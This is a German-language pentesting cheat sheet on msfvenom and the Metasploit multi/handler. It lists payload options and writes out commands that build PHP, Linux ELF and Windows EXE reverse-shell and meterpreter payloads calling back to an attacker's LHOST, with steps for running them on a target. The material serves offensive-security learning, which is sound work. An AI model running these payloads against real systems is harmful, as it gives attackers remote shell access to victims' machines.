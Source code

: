 | Parameter                        | Bedeutung                          |
| -------------------------------- | ---------------------------------- |
| `-l payloads`                    | Alle payloads auflisten            |
| `-p php/meterpreter/reverse_tcp` | payload festlegen                  |
| `--list formats`                 | Verfügbare Ausgabeformate anzeigen |
| `-f raw`                         | Ausgabe festlegen                  |
| `-e php/base64`                  | Encoding festlegen                 |
|                                  |                                    |
|                                  |                                    |

### Handler

Von msfvenom generierte "Reverse Shells und Meterpreter callbacks" können von einem Handler abgefangen werden. Der allgemeine Handler ist der Multi Handler ( Metasploit payloads, meterpreter, reguläre shells ) unter `exploit/multi/handler`.\
Der Ablauf kann dabei wie folgt sein:

* Generate the PHP shell using MSFvenom
* Start the Metasploit handler
* Execute the PHP shell

msfvenom benötigt eine Payload, die IP-Adresse des lokalen Rechners ( LHOST ) und den lokalen Port ( LPORT ), mit dem die Payload verbunden werden soll.q

```
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```

### Weitere Payloads ( reverse shell )

#### Linux Executable and Linkable Format (elf)

{% code overflow="wrap" %}
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
{% endcode %}

Das .elf-Format ist vergleichbar mit dem .exe-Format in Windows. Dies sind ausführbare Dateien für Linux. Sie müssen jedoch sicherstellen, dass sie auf dem Zielcomputer ausführbare Rechte haben. Wenn Sie beispielsweise die Datei shell.elf auf Ihrem Zielcomputer haben, verwenden Sie den Befehl chmod +x shell.elf, um die Ausführbarkeit zu gewährleisten. Danach können Sie diese Datei ausführen, indem Sie ./shell.elf in die Befehlszeile des Zielcomputers eingeben.

#### Windows

{% code overflow="wrap" %}
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
{% endcode %}
